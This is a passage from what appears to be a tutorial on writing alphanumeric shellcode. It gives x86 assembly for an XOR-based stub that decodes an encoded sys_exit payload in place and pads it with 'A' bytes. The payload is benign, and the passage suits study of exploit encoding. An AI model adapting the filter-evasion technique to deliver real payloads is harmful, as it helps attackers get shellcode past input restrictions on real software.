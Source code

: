 Recall that for our sys_exit shellcode, the xor pairs we determined were: 0x43614241 ^ 0x2b39432b, 0x6a6a6a6a ^ 0x2b2b2b2b, and 0x6a6a6a62 ^ 0x2b2b2b39.

Here's the code:

<pre id='vimCodeElement'>
<span class="Comment">; Set ecx to 0x41410100 (0x41 bytes less than the start of the encoded data)</span>
<span class="Identifier">push</span> <span class="Number">0x6a6a4241</span>
<span class="Identifier">pop</span> <span class="Identifier">eax</span>
<span class="Identifier">xor</span> <span class="Identifier">eax</span>, <span class="Number">0x2b2b4341</span> <span class="Comment">; eax -&gt; 0x41410100</span>
<span class="Identifier">push</span> <span class="Identifier">eax</span>
<span class="Identifier">pop</span> <span class="Identifier">ecx</span> <span class="Comment">; ecx -&gt; 0x41410100</span>

<span class="Comment">; Set edx to the first value in the first xor pair</span>
<span class="Identifier">push</span> <span class="Number">0x43614241</span>
<span class="Identifier">pop</span> <span class="Identifier">edx</span>

<span class="Comment">; xor it with the second value in the first xor pair (which is at ecx + 0x41)</span>
<span class="Identifier">xor</span> [<span class="Identifier">ecx</span>+<span class="Number">0x41</span>], <span class="Identifier">edx</span>

<span class="Comment">; Move ecx to the next 32-bit value</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>

<span class="Comment">; Set edx to the first value in the second xor pair</span>
<span class="Identifier">push</span> <span class="Number">0x6a6a6a6a</span>
<span class="Identifier">pop</span> <span class="Identifier">edx</span>

<span class="Comment">; xor + increment ecx again</span>
<span class="Identifier">xor</span> [<span class="Identifier">ecx</span>+<span class="Number">0x41</span>], <span class="Identifier">edx</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>
<span class="Identifier">inc</span> <span class="Identifier">ecx</span>

<span class="Comment">; Set edx to the first value in the third and final xor pair, and xor it</span>
<span class="Identifier">push</span> <span class="Number">0x6a6a6a62</span>
<span class="Identifier">pop</span> <span class="Identifier">edx</span>
<span class="Identifier">xor</span> [<span class="Identifier">ecx</span>+<span class="Number">0x41</span>], <span class="Identifier">edx</span>

<span class="Comment">; At this point, I assembled the code and counted the bytes; we have exactly 0x30 bytes of code so far. That means to get our encoded shellcode to exactly 0x141 bytes after the start, we need 0x111 bytes of padding ('A' translates to inc ecx, so it's effectively a no-op because the encoded shellcode doesn't care what ecx starts as):</span>
<span class="Identifier">db</span> '<span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</span>'
<span class="Identifier">db</span> '<span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</span>'
<span class="Identifier">db</span> '<span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</span>'
<span class="Identifier">db</span> '<span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</span>'
<span class="Identifier">db</span> '<span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</span>'
<span class="Identifier">db</span> '<span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</span>'
<span class="Identifier">db</span> '<span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</span>'